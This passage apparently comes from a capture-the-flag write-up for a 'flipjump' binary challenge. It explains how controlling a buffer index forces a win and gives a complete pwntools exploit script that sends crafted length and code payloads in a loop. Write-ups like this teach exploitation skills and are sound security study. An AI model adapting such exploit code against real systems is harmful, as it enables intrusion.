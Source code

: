 ```sa()``` here is equivalent to ```p.sendafter()```.
log.critical(str(bit))

rand = byte * 8 + bit
```

The return value of run_player is ```a1->container->code[a1->container->length / 8 - 33]```. If we supply rand to this index of player2's code and make the code remain untouched by exiting run_vm immediately, we will win.

Using rand, our second payload would be:
```python
sa(b"length:\n", p64(0x200))

payload = b""
payload += (p64(0x400*8)+p64(rand)) * (0x200//0x10)

sa(b"code:\n", payload)
```

And we need to do this 69 times.

## Exploit
Now we only need to put things together,

the final exploit is this:
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

p=process('./flipjump')

for _ in range(69):
    sa(b"length:\n", p64(0x200))

    payload = b""
    payload += (p64(0x400*8)+p64(0)) * (0x200//0x10)

    sa(b"code:\n", payload)

    # Flip[0] Bit 5 1->0

    res = p.recvline().decode()
    byte = int(res[5])
    log.critical(str(byte))
    bit = int(res[12:14].strip())
    log.critical(str(bit))

    rand = byte * 8 + bit

    sa(b"length:\n", p64(0x200))

    payload = b""
    payload += (p64(0x400*8)+p64(rand)) * (0x200//0x10)

    sa(b"code:\n", payload)
    
```
